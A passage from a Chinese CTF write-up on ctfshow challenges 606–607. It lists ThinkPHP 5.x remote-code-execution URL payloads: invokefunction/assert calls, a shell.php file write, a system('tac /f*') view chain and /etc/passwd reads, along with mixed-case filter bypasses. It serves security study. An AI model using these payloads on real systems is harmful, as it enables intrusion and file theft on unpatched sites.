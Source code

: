 ## web 606

> 描述：未开启强制路由RCE-姿势4 版本thinkphp 5.1.29 举一反四

每次禁用上一题使用的payload的关键字时，通过大小写绕过一下即可。这题在上面的基础过滤了write，大写即可

```php
?s=index/\think\app/INVokefuNcTion&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
?s=index/\think\app/inVOkEFUNction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
?s=index/think\Request/iNput&filter=assert&data=phpinfo();
?s=index/think\Request/INPUt&filter[]=assert&data=phpinfo();
?s=index/THINK\template\driver\file/WRITE&cacheFile=shell.php&content=<?php phpinfo();?>
```

## web 607

> 描述：未开启强制路由RCE-姿势5 举一反五

上的payload还是可以打，似乎都仅仅是过滤了小写

```php
```php
?s=index/\think\app/INVokefuNcTion&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
?s=index/\think\app/inVOkEFUNction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
?s=index/think\Request/iNput&filter=assert&data=phpinfo();
?s=index/think\Request/INPUt&filter[]=assert&data=phpinfo();
?s=index/THINK\template\driver\file/WRITE&cacheFile=shell.php&content=<?php phpinfo();?>
```

学到一条新链子

利用了一个`__call()`方法再触发display方法，可以渲染php代码

```php
?s=index/\think\view\driver\Think/__call&method=display&params[]=<?php system('tac /f*'); ?>
```

没什么意思，学一下其他可以解析的链子，并不是所有版本都适用！

```php
?s=index/\think\Lang/load&file=/etc/passwd   # 读取文件，如果知道flag文件名，....
?s=index/\think\Config/load&file=/etc/passwd # 包含任意文件，适用v5.0.*
```

一直到610，都是这个思路，只是过滤了不同的关键字，大小写绕过


后续似乎都是反序列化挖链子的，打算单开一篇学习，那就到此结束了拜拜拜拜


参考、致谢：

- [Thinkphp v3.2.3官方源码](https://github.com/top-think/thinkphp)
- [thinkphp日志泄露](https://www.cnblogs.com/Cl0ud/p/15941252.html)
- [tp3漏洞总结](https://y4er.com/posts/thinkphp3-vuln/)
- [tp3 SQL注入漏洞跟踪](https://blog.csdn.net/qq_50589021/article/details/120616736)
- [thinkPHP3.2.3sql注入漏洞](https://blog.csdn.net/qq_50589021/article/details/120616736)
- [变量覆盖RCE](https://blog.csdn.net/miuzzx/article/details/119410335)
- [变量覆盖RCE](https://fallingskies22.github.io/post/ctfshowthinkphp-zhuan-ti/)
- [未开启强制路由RCE](https://www.modb.pro/db/501435)
- [未开启强制路由RCE](https://blog.csdn.net/weixin_45669205/article/details/116724655)